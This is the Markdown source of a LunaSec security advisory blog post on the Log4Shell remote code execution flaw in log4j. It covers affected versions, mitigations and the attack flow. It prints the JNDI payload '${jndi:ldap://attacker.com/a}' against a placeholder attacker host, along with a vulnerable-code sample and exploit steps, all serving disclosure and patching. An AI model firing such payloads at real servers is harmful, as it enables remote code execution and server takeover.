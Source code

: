 ```yaml
---
title: "Log4Shell: RCE 0-day exploit found in log4j, a popular Java logging package"
description: Given how ubiquitous this library is, the impact of this vulnerability is quite severe. Learn how to patch it, why it's bad, and more in this post.
slug: log4j-zero-day
image: https://www.lunasec.io/docs/img/log4shell-logo.png
authors:
- name: Free Wortley 
  title: CEO at LunaSec 
  url: https://github.com/freeqaz
  image_url: https://github.com/freeqaz.png
  tags: [zero-day, security, data-security, data-breaches]
- name: Chris Thompson
  title: Developer at Lunasec
  url: https://github.com/breadchris
  image_url: https://github.com/breadchris.png

---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

![Log4Shell Logo](https://www.lunasec.io/docs/img/log4shell-logo.png)

_Updated @ December 10th, 8am PST_

A few hours ago, a 0-day exploit in the
popular Java logging library `log4j` was discovered that results in Remote Code Execution (RCE) by
logging a certain string.

Given how ubiquitous this library is, the impact of the exploit (full server control), and how easy it is to exploit,
the impact of this vulnerability is quite severe. We're calling it "Log4Shell" for short (CVE-2021-44228 just isn't as memorable).

The 0-day was [tweeted](https://twitter.com/P0rZ9/status/1468949890571337731) along with a POC posted on
[GitHub](https://github.com/tangxiaofeng7/apache-log4j-poc).  ~~Since this vulnerability is still very new, there isn't a CVE to track
it yet.~~ This has been published as [CVE-2021-44228](https://www.randori.com/blog/cve-2021-44228/) now.

This post provides resources to help you understand the vulnerability and how to mitigate it for yourself.

<!--truncate-->

## Who is impacted?
Many, many services are vulnerable to this exploit.  Cloud services like [Steam, Apple iCloud](https://news.ycombinator.com/item?id=29499867), and apps like
Minecraft have already been found to be vulnerable.  

Anybody using Apache Struts is likely vulnerable. We've seen similar vulnerabilities exploited before in breaches like 
the [2017 Equifax data breach](https://en.wikipedia.org/wiki/2017_Equifax_data_breach#Data_breach).

Many Open Source projects
like the Minecraft server, [Paper](https://github.com/PaperMC/Paper/commit/b475c6a683fa34156b964f751985f36a784ca0e0),
have already begun patching their usage of `log4j`.

**Updates (3 hours after posting):**
According to [this blog post](https://www.cnblogs.com/yyhuni/p/15088134.html) (in [english](https://www-cnblogs-com.translate.goog/yyhuni/p/15088134.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-US)),
JDK versions greater than `6u211`, `7u201`, `8u191`, and `11.0.1` are not affected by the LDAP attack vector. In these versions
`com.sun.jndi.ldap.object.trustURLCodebase` is set to `false` meaning JNDI cannot load a remote codebase using LDAP. 

However, there are other attack vectors targeting this vulnerability which can result in RCE. Depending on what code is
present on the server, an attacker could leverage this existing code to execute a payload. An attack targeting the class
`org.apache.naming.factory.BeanFactory`, present on Apache Tomcat servers, is discussed
in [this blog post](https://www.veracode.com/blog/research/exploiting-jndi-injections-java). 

## Affected Apache log4j Versions

`2.0 <= Apache log4j <= 2.14.1`

## Permanent Mitigation

At the time this post was created (December 9th, 2021), no stable release was available. 

As of December 10th, 2021, Version 2.15.0 was released. log4j-core.jar is available on Maven Central [here](https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-core/2.15.0/), with [[release notes](https://logging.apache.org/log4j/2.x/changes-report.html#a2.15.0)] and 
[[log4j security announcements](https://logging.apache.org/log4j/2.x/security.html)].

Releases to GitHub appear to still be pending.

## Temporary Mitigation

As per [this discussion on HackerNews](https://news.ycombinator.com/item?id=29507263):

> The 'formatMsgNoLookups' property was added in version 2.10.0, per the JIRA Issue LOG4J2-2109 [1] that proposed it. Therefore the 'formatMsgNoLookups=true' mitigation strategy is available in version 2.10.0 and higher, but is no longer necessary with version 2.15.0, because it then becomes the default behavior [2][3].
> 
> If you are using a version older than 2.10.0 and cannot upgrade, your mitigation choices are:
> 
> - Modify every logging pattern layout to say `%m{nolookups}` instead of `%m` in your logging config files, see details at https://issues.apache.org/jira/browse/LOG4J2-2109 or,
>
> - Substitute a non-vulnerable or empty implementation of the class org.apache.logging.log4j.core.lookup.JndiLookup, in a way that your classloader uses your replacement instead of the vulnerable version of the class. Refer to your application's or stack's classloading documentation to understand this behavior.

## How the exploit works

### Exploit Requirements 
- A server with a vulnerable `log4j` version (listed above),
- an endpoint with any protocol (HTTP, TCP, etc) that allows an attacker to send the exploit string,
- and a log statement that logs out the string from that request.

### Example Vulnerable Code

```ts
import org.apache.log4j.Logger;

import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = Logger.getLogger(log4jExample.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's User Agent and logs it back.
   * This is basically pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    string userAgent = he.getRequestHeader("user-agent");
    
    // This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
    // The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
    log.info("Request User Agent:{}", userAgent);

    String response = "<h1>Hello There, " + userAgent + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
```

### Exploit Steps
1. Data from the User gets sent to the server (via any protocol),
2. The server logs the data in the request, containing the malicious payload: `${jndi:ldap://attacker.com/a}` (where `attacker.com` is an attacker controlled server),
3. The `log4j` vulnerability is triggered by this payload and the server makes a request to `attacker.com` via "[Java Naming and Directory Interface](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)" (JNDI),
4. This response contains a path to a remote Java class file (ex. `http://second-stage.attacker.com/Exploit.class`) which is injected into the server process,
5. This injected payload triggers a second stage, and allows an attacker to execute arbitrary code.

Due to how common Java vulnerabilities such as these are, security researchers have created tools to easily exploit 
them. The [marshalsec](https://github.com/mbechler/marshalsec) project is one of many that demonstrates generating an
exploit payload that could be used for this vulnerability. You can refer to [this malicious LDAP server](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java) for an example of exploitation. 

## More information

We'll continue to update this post as information about the impact of this exploit becomes available.

For now, we're just publishing this to help raise awareness and get people patching it. Please tell any of your friends 
running Java software!

### How you can prevent future attacks

Approaches like Tokenization can limit your vulnerability to attacks before they happen by requiring multiple exploits
to leak sensitive data.

[LunaSec](https://www.lunasec.io/docs/pages/overview/introduction/) is an Open Source Data Security framework designed 
to help [mitigate](https://www.lunasec.io/docs/pages/how-it-works/features/) attacks just like this one.

### Editing this post
If you have any updates or edits you'd like to make, you can edit this post as Markdown on
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2021-12-09-log4j-zero-day.md). And please throw us a Star ⭐!

### Links
- **[Hacker News](https://news.ycombinator.com/item?id=29504755)**
- **[Reddit](https://old.reddit.com/r/programming/comments/rcxehp/rce_0day_exploit_found_in_log4j_a_popular_java/)**
- **[Twitter](https://twitter.com/freeqaz/status/1469121757361569793?s=20)**

### Edits

1. Updated the "Who is impacted?" section to include mitigating factor based on JDK version, but also suggest other exploitation
methods are still prevalent.
2. ~~Named the vulnerability "LogJam",~~ added CVE, and added link to release tags.
3. Update mitigation steps with newer information.
4. Removed the name "LogJam" because it's already been [used](https://en.wikipedia.org/wiki/Logjam_(computer_security)). Using "Log4Shell" instead.
5. Update that 2.15.0 is released.
6. Added the MS Paint logo[4], and updated example code to be slightly more clear (it's not string concatenation).

### References

[1] https://issues.apache.org/jira/browse/LOG4J2-2109

[2] https://github.com/apache/logging-log4j2/pull/607/files

[3] https://issues.apache.org/jira/browse/LOG4J2-3198

[4] Kudos to [@GossiTheDog](https://twitter.com/GossiTheDog/status/1469252646745874435) for the MS Paint logo!

Also kudos to @80vul for [tweeting](https://twitter.com/80vul/status/1468968891489857537) about this.
